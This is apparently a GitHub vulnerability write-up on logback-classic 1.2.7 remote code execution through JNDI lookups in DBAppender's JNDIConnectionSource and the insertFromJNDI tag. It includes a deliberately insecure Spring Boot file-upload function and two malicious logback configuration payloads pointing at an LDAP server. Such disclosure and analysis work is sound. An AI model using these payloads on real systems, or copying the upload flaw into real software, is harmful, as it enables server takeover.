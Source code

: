 1. ##  Affected version

   logback-classic <=1.2.7

   ##  Environment

    SpringBoot 2.6.1 

    JDK8u111(Please note the available versions of JNDI)

   ##  Project address

   https://github.com/cn-panda/logbackRceDemo

   The project is a simple vulnerability demo environment  in springboot, The key function is **upload**:

   ```java
   public String upload(@RequestParam("file") MultipartFile file) {  
       if (file.isEmpty()) {  
           return "Upload failed, please select a file！！";  
       }  
     
       String fileName = file.getOriginalFilename();  
       String filePath = Thread.currentThread().getContextClassLoader().getResource("").getPath();;  
       System.out.println(filePath);  
       File dest = new File(filePath,fileName);  
       try {  
           file.transferTo(dest);  
           LOGGER.info("Upload succeeded!!");  
           return "Upload succeeded!!";  
       } catch (IOException e) {  
           LOGGER.error(e.toString(), e);  
       }  
       return "Upload failed!!";  
   }
   ```

   The main function of this method is to upload files.

   The configuration file of logback in the project is as follows:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/1.png?raw=true)

   The key point is the `scan` attribute, which is used by logback to periodically scan the configuration file for changes.

   If the configuration file is detected to change, it will update and load the configuration file in real time.

   In this project, I deliberately wrote a vulnerability environment with arbitrary file uploads, and then used the `scan` attribute in the loghack configuration file to cooperate with the logback vulnerability to implement RCE
   
   **Note: the upload here is the code I deliberately wrote with file upload vulnerability. It is proposed to propose a possible scenario. It is not the problem of logback itself. Logback only needs this vulnerability to trigger rce. If other vulnerabilities are not used, logback itself is safe**

   # Vulnerability analysis

   ## JNDIConnectionSource

   In logback, it is also similar to the Appender of JDBCAppender in log4j1.x —— that is **DBAppender**

   There is an interface called `ConnectionSource` in DBAppender.

   This interface provides a pluggable way to obtain a JDBC connection using the logback class of `java.sql.Connection`

   There are currently three implementation classes: `DriverManagerConnectionSource`, `DataSourceConnectionSource` and `JNDIConnectionSource`.

   Each of these three implementation classes can be used to achieve RCE.

   But unlike the other two implementation classes, the way `JNDIConnectionSource` implements RCE is more convenient, because it can implement RCE without relying on other component-dependent gadgets, and only rely on the mechanism provided by the application (JNDI), but ` DriverManagerConnectionSource` and `DataSourceConnectionSource` must rely on JDBC deserialization vulnerabilities to be able to implement RCE. The restrictions are relatively large, so I will not demonstrate here.

   **JNDIConnectionSource** is logback's own method, as you can see from the name, it obtains `javax.sql.DataSource` through JNDI, and then obtains `java.sql.Connection instance`

   In fact, you can find out by observing the code of the `getConnection` method in `JNDIConnectionSource.java`:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/2.png?raw=true)

   If dataSource is empty, then let `dataSource = lookupDataSource();`

   Then trigger `lookup` in **lookupDataSource()**:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/3.png?raw=true)

   #### Vulnerability recurrence

   First download the reproduced source code, and then run the main function of the `RceDemoApplication` project:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/4.png?raw=true)

   Then open the browser and type in the address bar: `http://localhost:8080`, you can visit the project homepage

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/5.png?raw=true)

   This means that your vulnerability environment has been built.

   Then create a configuration file of `logback-spring.xml` locally, the content of the file is as follows:

```
<configuration scan="true" scanPeriod="10 seconds" debug="true">  
   　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">  
       　　　　　 <encoder>  
       　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>  
       　　　　　 </encoder>  
       　　　</appender>  
       <appender name="DB" class="ch.qos.logback.classic.db.DBAppender">  
           <connectionSource class="ch.qos.logback.core.db.JNDIConnectionSource">  
               <jndiLocation>ldap://127.0.0.1:1389/erqtcd</jndiLocation>  
           </connectionSource>  
       </appender>  
     
       　　　<root level="DEBUG">  
       　　　　　　<appender-ref ref="STDOUT" />  
       　　　</root>  
</configuration>
```
   
   Then visit `http://localhost:8080/upload.html`, select the file and click the upload button, use BurpSuite to capture the package, you can see that the file is uploaded successfully:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/6.png?raw=true)

   After waiting ten seconds, RCE can be executed successfully

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/7.png?raw=true)

   ## insertFromJNDI

   In addition to `JNDIConnectionSource`, there is actually another configuration that can implement JNDI injection——**insertFromJNDI**

   `<insertFromJNDI>` is the configuration tag of logback, which is used to set the range of attributes. It supports obtaining attribute values through JNDI. Similarly, if you modify the content of the `<insertFromJNDI>` tag, you can also achieve JNDI injection

   When the `<insertFromJNDI>` tag is used, it means that the `begin` method in the `InsertFromJNDIAction.java` file will be called, and the `JNDIUtil.lookup` method will be used , thereby triggering the vulnerability:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/8.png?raw=true)

   ### Vulnerability recurrence

   The reproduction steps are roughly the same as in #JNDIConnectionSource, except that the payload used in the uploaded file needs to be changed, as follows:

   ```
<configuration scan="true" scanPeriod="10 seconds" debug="true">
   　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
       　　　　　 <encoder>
       　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>
       　　　　　 </encoder>
       　　　</appender>
       <insertFromJNDI env-entry-name="ldap://127.0.0.1:1389/erqtcd" as="appName" />  
   
   　　　<root level="DEBUG">
       　　　　　　<appender-ref ref="STDOUT" />
       　　　</root>
   </configuration>
   ```
   
   Upload the configuration file:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/9.png?raw=true)

   Similarly, after waiting for 10 seconds, RCE can be triggered:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/10.png?raw=true)

   In fact, in addition to these two, the `begin` in `JMXConfiguratorAction` can also be used for malicious purposes.

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/11.png?raw=true)

   # Summarize

   In general, the triggering method of this vulnerability is still relatively difficult, unless the following conditions can be met:

   1. The configuration file of logback can be modified or overwritten
2. Able to make the modified configuration file take effect
